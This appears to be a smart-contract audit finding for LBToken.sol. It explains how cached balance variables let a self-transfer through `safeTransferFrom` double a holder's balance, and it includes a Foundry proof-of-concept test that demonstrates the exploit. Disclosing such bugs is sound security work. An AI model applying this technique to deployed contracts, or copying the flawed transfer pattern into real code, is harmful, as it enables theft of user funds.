 Using temporary variables to update balances is a dangerous construction that has led to several hacks in the past. Here, we can see that `_toBalance` can overwrite `_fromBalance`:

```solidity
File: LBToken.sol
176:     function _transfer(
177:         address _from,
178:         address _to,
179:         uint256 _id,
180:         uint256 _amount
181:     ) internal virtual {
182:         uint256 _fromBalance = _balances[_id][_from];
...
187:         uint256 _toBalance = _balances[_id][_to];
188: 
189:         unchecked {
190:             _balances[_id][_from] = _fromBalance - _amount;
191:             _balances[_id][_to] = _toBalance + _amount; //@audit : if _from == _to : rekt
192:         }
..
196:     }
```

Furthermore, the `safeTransferFrom` function has the `checkApproval` modifier which passes without any limit if `_owner == _spender` :

```solidity
File: LBToken.sol
32:     modifier checkApproval(address _from, address _spender) {
33:         if (!_isApprovedForAll(_from, _spender)) revert LBToken__SpenderNotApproved(_from, _spender);
34:         _;
35:     }
...
131:     function safeTransferFrom(
...
136:     ) public virtual override checkAddresses(_from, _to) checkApproval(_from, msg.sender) {
...
269:     function _isApprovedForAll(address _owner, address _spender) internal view virtual returns (bool) {
270:         return _owner == _spender || _spenderApprovals[_owner][_spender];
271:     }
```

### Proof of Concept

Add the following test to `LBToken.t.sol` (run it with `forge test --match-path test/LBToken.t.sol --match-test testSafeTransferFromOneself -vvvv`):

```solidity
    function testSafeTransferFromOneself() public {
        uint256 amountIn = 1e18;

        (uint256[] memory _ids, , , ) = addLiquidity(amountIn, ID_ONE, 5, 0);

        uint256 initialBalance = pair.balanceOf(DEV, _ids[0]);

        assertEq(initialBalance, 333333333333333333); // using hardcoded value to ease understanding

        pair.safeTransferFrom(DEV, DEV, _ids[0], initialBalance); //transfering to oneself
        uint256 rektBalance1 = pair.balanceOf(DEV, _ids[0]); //computing new balance
        assertEq(rektBalance1, 2 * initialBalance); // the new balance is twice the initial one
        assertEq(rektBalance1, 666666666666666666); // using hardcoded value to ease understanding
    }
```
